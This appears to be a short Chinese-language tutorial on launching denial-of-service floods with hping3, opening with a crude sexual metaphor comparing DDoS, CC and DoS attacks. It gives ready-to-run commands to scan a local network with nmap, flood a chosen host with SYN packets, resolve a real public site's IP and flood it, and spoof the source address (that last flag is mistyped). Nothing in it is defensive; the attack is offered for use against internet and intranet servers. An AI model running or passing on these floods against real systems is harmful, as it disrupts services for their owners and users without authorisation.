


## Dos洪水攻击-使用Hping3

我们总是可以听到DDoS攻击，CC攻击

但事实，DDoS发起的成本需要非常高

我来用个生动的比喻让你了解DDoS和CC和Dos的区别

DDoS就是一群小鸡鸡操你，这需要成本，你需要找到很多小鸡鸡

CC就是一个大鸡鸡操你

Dos就是一根不大不小的鸡鸡操你，不一定能操死，甚至操不爽

## Hping3的使用

我们可以用来攻击互联网服务器，或者内网服务器

我们先讲内网

我们可以使用nmap工具一键扫描局域网内存活的主机

`nmap -sP 192.168.*.1/24`

至于*处填什么，我们可以用`ifconfig`命令查看我们局域网第三个段的地址是什么

我们之后可以使用

`hping -S --flood -V ip`

（ip处替换为你要攻击的ip）

进行攻击

## 攻击服务器

我们首先使用`ping`命令来获取服务器的ip

比如获取百度ip

我们输入

`ping baidu.com`

要停下ping也很简单，我们只需要摁下键盘的

Ctrl+C 即可停止

我们获得ip=220.181.38.148后

就可以通过`hping -S --flood -V ip`命令进行攻击了

`hping -S --flood -V 220.181.38.148`

回车即可开始攻击

我们可以使用下面的命令隐藏ip攻击

`hping3 -S -U --flood -V --rand -source ip`
